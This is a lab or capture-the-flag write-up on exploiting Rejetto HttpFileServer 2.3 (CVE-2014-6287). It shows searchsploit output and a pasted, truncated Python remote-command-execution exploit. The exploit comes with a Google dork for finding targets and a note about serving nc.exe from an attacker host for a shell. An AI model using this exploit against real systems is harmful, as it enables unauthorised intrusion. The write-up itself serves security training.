 
# Thoughts So Far

Okay, we have another web page on port 8080, that when visited in a web browser shows httpfileserver version 2.3, made by rejetto. I recognize this as a very vulnerable service. Lets check searchsploit after submitting our answer to one of the questions.
```
searchsploit HttpFileServer 2.3
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                | windows/webapps/49125.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Looks like we can get remote command execution on this box.

https://www.exploit-db.com/exploits/39161

We COULD use metasploit for this which can handle everything for us, but that's not very OSCP-prep of us.
### The exploit
```py
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
```